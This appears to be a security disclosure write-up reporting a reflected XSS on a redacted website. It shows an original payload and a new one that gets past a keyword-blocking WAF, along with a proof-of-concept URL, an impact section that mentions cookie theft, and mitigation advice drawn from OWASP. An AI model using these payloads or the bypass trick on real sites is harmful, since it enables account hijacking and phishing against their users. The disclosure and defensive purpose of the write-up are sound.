

# Reflected XSS on \[REDACTED]

*This is an update to the [first XSS](XSS_%5BREDACTED%5D.md) that I found on this website.*

## Summary:

The XSS vulnerability still exists, but the WAF (Web Application Firewall) has been updated to block JavaScript keywords. This is not a proper solution, as an attacker can modify the old payload to bypass the WAF.

```javascript
// Old payload
// Now, [REDACTED] blocks the words 'script' and 'alert', so this won't work
text'}self['alert'](document.domain);</script>

// New payload
// No 'alert' or 'script' (case sensitive), so this payload works
'}self['alErt'.toLowerCase()](document.domain);if(1){//
```

### [Proof of concept](https://[REDACTED]/SRVS/CGI-BIN/WEBCGI.EXE?New,Kb=igud_bashan,Company=%7B8A245F94-C1FF-4E54-9373-F308EA45FF27%7D,varset_site=%27%7Dself%5B%27alErt%27.toLowerCase%28%29%5D%28document.domain%29;if%281%29%7B//)



## Impact

Arbitrary JavaScript code execution. In my proof of concept, it prints the domain. However, an attacker could send `document.cookie` to himself in order to hijack accounts, or they could display a phishing page.

## Mitigation / Solution

*Sanitize all parameters* before using them (more information at the [OWASP page regarding XSS prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding)).

JavaScript contexts:

> Encode all characters using the `\xHH` format.

HTML contexts:

```
&    &amp;
<    &lt;
>    &gt;
"    &quot;
'    &#x27;
```
